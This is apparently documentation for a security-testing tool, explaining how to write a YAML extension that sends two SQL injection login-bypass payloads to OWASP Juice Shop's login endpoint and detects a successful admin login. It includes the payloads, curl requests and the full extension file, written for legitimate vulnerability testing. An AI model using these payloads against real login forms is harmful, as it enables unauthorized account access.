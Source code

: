 [link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[link-send-headers]:        ../phase-send.md#working-with-the-host-header
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project



#   Creation of Nonmodifying Extension

The extension described in this document will not modify an incoming baseline request to inject some payload into. Instead, the two predefined test requests will be sent to the host that is specified in the baseline request. These test requests contain payloads that could lead to exploitation of the SQLi vulnerability in the [“OWASP Juice Shop”][link-juice-shop] target application's login form.


##  Preparations

It is highly recommended to [investigate the target application's behavior][link-app-examination] prior to creation of the FAST extension.


##  Constructing the Extension

Create a file that describes the extension (e.g., `non-mod-extension.yaml`) and populate it with the required sections:

1.  [**The `meta-info` section**][link-meta-info].

    Prepare the description of the vulnerability that the extension will try to detect.
    *   vulnerability header: `OWASP Juice Shop SQLi (non-mod extension)`
    *   vulnerability description: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    *   vulnerability type: SQL injection
    *   vulnerability threat level: high
<br><br>
    
    The corresponding `meta-info` section should look as follows:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **The `send` section, the [Send phase][doc-send-phase]**

    There are two payloads that should be sent as an `email` parameter value alongside any `password` value in order to exploit the SQL injection vulnerability in the target application:
    *   `'or 1=1 --`
    *   `admin@juice-sh.op'--`
    
    You can craft two test requests, each containing
    *   the `email` parameter with one of the values described above and 
    *   the `password` parameter with an arbitrary value.

    It is sufficient to use just one of these requests to test our example target application (OWASP Juice Shop).
    
    However, having a set of several prepared test requests may be useful when conducting the security testing of a real application: if one of the requests can not exploit a vulnerability anymore thanks to updates and improvements in the application, then there will be other test requests available that may still exploit the vulnerability because of other payloads in use.

    The request with the first payload from the list above is similar to this one:
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    The second request looks like the first one:

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    Add the `send` section containing the descriptions of these two test requests:
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
    <!-- -->
    >   #### Info:: A note about the `Host` header
    >   
    >   The `Host` header can be omitted in these requests because it does not influence the exploitation of this particular SQLi vulnerability. A FAST node will automatically add the `Host` header extracted from an incoming baseline requests.
    >   
    >   Read [here][link-send-headers] about how the Send phase handles request's headers.
     3.  **The `detect` section, the [Detect phase][doc-detect-phase]**.
    
    The following conditions indicate that the user authentication with administrator's rights was successful:
    *   The presence of the shopping cart identifier parameter with the `1` value in the response body. The parameter is in JSON format and should look like this:
    
        ```
        "bid":1
        ```
    
    * The presence of the user email parameter with the `admin@juice-sh.op` value in the response body. The parameter is in JSON format and should look like this:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Add the `detect` section that checks whether the attack was successful according to the conditions described above.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
<!-- -->
>   #### Info:: Escaping the special symbols
>   Remember to escape the special symbols in the strings.
 ##  The Extension File

Now the `non-mod-extension.yaml` file contains a complete set of the sections required for the extension to operate. The list of the file's contents is shown below:

{% collapse title="non-mod-extension.yaml" %}
```
meta-info:
  - type: sqli
  - threat: 80
  - title: 'OWASP Juice Shop SQLi (non-mod extension)'
  - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

send:
  - method: 'POST'
    url: '/rest/user/login'
    headers:
    - 'Content-Type': 'application/json'
    body: '{"email":"''or 1=1 --","password":"12345"}'
  - method: 'POST'
    url: '/rest/user/login'
    headers:
    - 'Content-Type': 'application/json'
    body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

detect:
  - response:
    - body: "\"umail\":\"admin@juice-sh.op\""
    - body: "\"bid\":1"
```
{% endcollapse %}


##  Using the Extension

For detailed information about how to use the created expression, read [this document][link-using-extension].